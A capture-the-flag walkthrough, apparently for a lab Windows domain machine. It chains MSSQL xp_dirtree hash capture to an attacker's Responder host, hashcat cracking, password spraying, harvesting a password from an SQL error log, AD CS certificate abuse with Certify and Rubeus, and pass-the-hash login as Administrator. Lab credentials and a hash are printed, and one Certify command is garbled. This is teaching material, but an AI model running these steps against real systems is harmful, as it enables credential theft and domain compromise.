

let’s use the model database using `use model;` 



we don’t have the permissions

let’s check login users for the sql server

```
SELECT name from sys.sql_logins
```



ok we have only sa and PublicUser, also we don’t have the xp_cmdshell permissions, so what now? xp_dirtree? let’s try this



we do have the permissions so what now!!

start responder on kali using `sudo responder -I tun0 -v` 

run following code from mssql shell

```bash
xp_dirtree \\10.10.14.17\test
```



we got the hash for sql_svc user let’s crack this using hashcat

```bash
hashcat -m 5600 mssql.hash /usr/share/wordlists/rockyou.txt
```



let’s check if we have access to SMB, winrm or RDP using netexec

```bash
netexec winrm 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
```



Bingo!!, let’s login as sql_svc

```bash
evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
```



nice we got shell as sql_svc seems to be a service user let’s check what privileges does it has

```bash
whoami /priv
```



no special privileges, let’s check the Users on then system



let’s just create a list of user’s and try to spray password to each users first we’ll check the password policy by `net accounts` 



we don’t need to worry about the lockout as it it disabled! (Lockout threshold - Never)



we’ve created users.txt and password.txt let’s use netexec to spray passwords for all users



No Password reuse 😟

let’s start enumerating system manually, first we’ll check for the interesting files/directories we found `C:\SQLServer\Logs` ERRORLOG.BAk file interesting let’s find password into it maybe using type `ERRORLOG.BAK | findstr /i password` 

```bash
cd \SQLServer\Logs

type ERRORLOG.BAK | findstr /i password
```



great we found password for Ryan.Cooper!!, let’s check how we can get shell as Ryan.Cooper, we’ll check which groups this user member of



Remote Management Users, nice so we can evil-winrm to this user

```bash
evil-winrm -i 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
```



## Shell as Administrator

i’ve done following Enumeration after login as the Ryan.Cooper

- Bloodhound, Manual Enumeration of the system
- winPEAS but nothing found, after taking small hint i found that i need to work on ADCS Exploitation AD CS (Active Directory Certificate Services)

then i started enumeration for the Abusing AD CS first i used the netexec 

```bash
netexec ldap 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3 -M adcs
```



With ADCS running, the next question is if there are any templates in this ADCS that are insecurely configured. To enumerate further, I’ll upload the [Certify](https://github.com/GhostPack/Certify), you can download pre-compiled binary from [here](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/refs/heads/master/Certify.exe)

then run the following command as Ryan.Cooper 

```bash
.\Certify.exe find /vulnerable
```



then i’ll request Certificate from CA

```bash
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administratorertificate from `---BEGIN RSA PRIVATE KEY---
```





---

---

copy full certificate from - - - BEGIN RSA PRIVATE KEY - - - to - - - END CERTIFICATE - - -

on linux run following command

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```



don’t enter the password now upload the cert.pfx to target machine

then i’ll request TGT using Rubeus.exe 

```bash
.\Rubeus.exe asktgt /user:Administrator /certificate:C:\Temp\cert.pfx 
```



by default the Rubues will load the TGT into current session so we can read the flag by accessing the directory but we need to login to account, so let’s try to dump the NTLM hash via /getcredentials /show /nowrap

```bash
.\Rubeus.exe asktgt /user:Administrator /certificate:C:\Temp\cert.pfx /getcredentials /show /nowrap
```



now we have NTLM hash so let’s just use it to login via evil-winrm

```bash
evil-winrm -i 10.10.11.202 -u Administrator -H A52F78E4C751E5F5E17E1E9F3E58F4EE
```

